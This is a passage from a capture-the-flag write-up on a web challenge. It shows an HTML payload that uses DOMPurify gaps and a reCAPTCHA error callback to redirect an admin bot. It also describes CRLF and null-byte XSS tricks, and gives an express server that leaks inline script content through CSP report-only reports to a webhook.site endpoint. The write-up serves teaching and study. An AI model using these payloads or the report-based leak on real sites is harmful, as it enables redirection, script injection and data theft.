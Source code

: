 When reCAPTCHA fails to load, the function written in this attribute is called. The next step is to see which functions can be used in the code, and we found this:

``` js
function logout() {
	document.getElementById('logout-form').submit()
}
```

The original position of the logout-form is below the position where the note is inserted, so we can use another form to cover it up.

Because DOMPurify does not filter forms by default, nor does it filter attributes starting with `data-`, the following HTML can be used to redirect the webpage:

``` html
<form action="https://example.com" id="logout-form"></form>
<div class="g-recaptcha" data-sitekey="A" data-error-callback="logout" data-size="invisible"></div>
```

The first stage is completed in this way, and the admin bot can be directed to any page. When I first saw the prompt, I got stuck here for a long time and couldn't figure out what to do next.

Looking at the solution, the second stage is the CRLF injection of `setCookie`, but because the injection point is below the CSP header, it is not possible to disable CSP, so even if you can control the response, theoretically it is not possible to XSS. This brings us to the exciting third stage.

Before talking about the third stage, let me mention an unexpected solution that breaks the premise of "theoretically impossible to XSS". The reason is that nim's sqlite library will explode when the content contains `\0`, and after the explosion, it will directly spit out an error message without a CSP header, resulting in a happy XSS.

Back to the exciting third stage.

The third stage is to use the [Content-Security-Policy-Report-Only](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only) header to leak the flag. This is mainly because when the rules are violated, a JSON is sent to the server, which contains a `script-sample`. If an inline script violates the rules, the first 40 characters will be included (there is also a prerequisite that CSP must include `report-sample`).

We can set up a simple server to verify:

``` js
const express = require('express')
const app = express()

app.get('/abc', (req, res) => {
  res.header('Content-Security-Policy', "default-src 'self'; script-src 'self';")
  res.header('Content-Security-Policy-Report-Only', "script-src 'report-sample'; report-uri https://webhook.site/419d518f-922b-4e1e-8583-65596fae1c95")
  
  res.send(`
    <body>
      <h1>hello</h1>
      <script>flag{test_flag}</script>
    </body>
  `)
  res.end()
})

app.listen(3000, () => {
  console.log('listening on http://localhost:3000')
})
```
